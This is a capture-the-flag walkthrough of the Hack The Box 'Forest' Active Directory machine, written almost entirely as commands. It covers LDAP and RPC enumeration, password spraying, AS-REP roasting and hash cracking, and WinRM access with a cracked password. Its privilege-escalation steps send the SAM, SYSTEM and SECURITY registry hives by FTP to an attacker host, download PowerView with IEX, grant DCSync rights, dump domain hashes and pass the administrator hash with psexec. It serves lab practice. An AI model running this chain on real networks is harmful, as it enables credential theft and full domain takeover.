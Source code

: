 # Forest Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

### NMAP RECON :

``nmap -sC -sV -oA forest 10.10.10.161``

``sleep300; nmap -p- -oA fullforst 10.10.10.161``

### SMB RECON :

``smbclient -L 10.10.10.161``

### LDAP RECON :

``ldapsearch -h 10.10.10.161 -x``

``ldapsearch -H ldap://10.10.10.161 -x -s base namingcontexts``

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" > ldap-anonymous.out``

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' | grep -i samaccountname``

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' | grep -i userPrincipalName``

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' | grep -i pwdLastSet``

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' samaccountname userPrincipalName pwdLastSet``

> google pwdLastSet ldap to human

https://www.epochconverter.com/ldap # Allows to transform data and to know if the accounts are valid 

### Transform commandes into a clean list of users and mails:

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=User)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > userlist.ldap`` 

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=User)' userPrincipalName | grep userPrincipalName | awk '{print $2}' > listmail.ldap``

### RPC RECON :

``rpcclient -U '' -N 10.10.10.161``

``enumdomusers``

``queryusergroups 0x47b``

``querygroup 0x47c``

``queryuser svc-alfresco``

![foret1](https://user-images.githubusercontent.com/123066149/219473940-1d997e3f-02fc-43da-b23a-1b1caf983c85.PNG)

![foret2](https://user-images.githubusercontent.com/123066149/219474000-d7af10d8-b7c2-4ca7-9a8e-fd5ee81e850b.PNG)

### AD passwords policy with CME (crackmapexec) :

``crackmapexec smb 10.10.10.161 --pass-pol -u '' -p ''``

``crackmapexec smb 10.10.10.161 --pass-pol -u 'user.lst' -p 'passwd.lst'``

### Password spray with crackmapexec

``crackmapexec smb 10.10.10.161 -u 'user.lst' -p 'passwd.lst'``

### Which makes it possible to advance on this box

``/usr/bin/impacket-GetNPUsers -dc-ip 10.10.10.161 -request htb.local/``       :white_check_mark:

![foret3](https://user-images.githubusercontent.com/123066149/219474106-21ca5839-47c6-490d-a634-04ffff9ea1ae.PNG)


``/usr/bin/impacket-GetNPUsers -dc-ip 10.10.10.161 -request htb.local/ -format hashcat``

![foret4](https://user-images.githubusercontent.com/123066149/219474172-104cc2cc-402f-4c70-875d-de718e5343cf.PNG)


``hashcat --example-hashes | grep -i krb``

``hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt`` # ippsec add -r rules/InsidePro-PasswordsPro.rule try to understand why

![foret5](https://user-images.githubusercontent.com/123066149/219474212-b889f930-8baa-4792-8ca8-2dca650ce1f5.PNG)


# ${{\color{purple}Initial Foothold}}\ $

### Test with a valid user :
 
``crackmapexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'``

``crackmapexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice' --shares``

# ${{\color{purple}Exploitation}}\ $

### port 5985 is important it is Win-RM (powershell remoting)

``locate evil-winrm``

``/usr/bin/evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161``

![foret6](https://user-images.githubusercontent.com/123066149/219474485-14552105-e748-4666-b91c-bf4ffa8ebbd0.PNG)


# ${{\color{purple}Privilege Escalation}}\ $

### File transfer with FTP:

``find . | grep exe$``

``impacket-smbserver idk $(pwd) -smb2support -user user -password idkazewxc123``

![foret7](https://user-images.githubusercontent.com/123066149/219474532-29bb4e52-4708-4b0f-a113-c9208183c429.PNG)


``$pass = convertto-securestring 'idkazewxc123' -AsPlainText -Force``

``$cred = New-Object System.Management.Automation.PSCredential('HTB\ippsec', $pass)``

``New-PSDrive -PSProvider FileSystem \\10.10.16.5``


``systemctl restart pure-ftpd``

``echo 'open 10.10.16.5 21'> ftp.txt``

``echo 'USER offsec'>> ftp.txt``

``echo 'lab'>> ftp.txt``

``echo 'bin'>> ftp.txt``

``echo 'PUT C:\windows\system32\config\SYSTEM'>> ftp.txt``

``echo 'PUT C:\windows\system32\config\SAM'>> ftp.txt``

``echo 'PUT C:\windows\system32\config\SECURITY'>> ftp.txt``

``echo 'bye'>> ftp.txt``



``ftp –v –n –s:ftp.txt``

``systemctl stop pure-ftpd``

### File transfer with SMB :

``New-PSDrive -Name ippsec4 -PSProvider FileSystem -Root \\10.10.16.5\test``

``cd ippsec4:``

``/usr/share/doc/python3-impacket/examples/smbserver.py test /mnt/share -smb2support``

### Bloodhound :

### if there is an installation of bloodhound and I don't remember the password neo4j delet :

``rm /usr/share/neo4j/data/dbms/auth``

``neo4j console``

``neo4j password : sparta-castro-union-labor-pluto-9066``


``./BloodHound --no-sandbox``

``.\SharpHound.exe -c all``

![foret8](https://user-images.githubusercontent.com/123066149/219474603-46922d67-0cc6-4e78-a08f-7ae8974f63fc.PNG)

### Bloodhound search :

``-Mark User as Owned``
``-Search for Shortest Path from Owned Principals``

``net user evil evil123 /add /domain``

``net group "Exchange Windows Permissions"``

``net group "Exchange Windows Permissions" /add evil``

### File transfer with SMB :

``IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:8080/PowerView.ps1')``

``$pass = convertto-securestring 'evil123' -AsPlainText -Force``

``$cred = New-Object System.Management.Automation.PSCredential('HTB\evil', $pass)``

``Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity evil -Rights DCSync``

``/usr/bin/impacket-secretsdump htb.local/evil:evil123@10.10.10.161``

``crackmapexec smb 10.10.10.161 -u 'administrator' -H 32693b11e6aa90eb43d32c72a07ceea6``

``/usr/bin/impacket-psexec -hashes 32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161``

# ${{\color{purple}Points of Improvement}}\ $

- Don't forget / in impacket :

``/usr/bin/impacket-GetNPUsers -dc-ip 10.10.10.161 -request htb.local/``
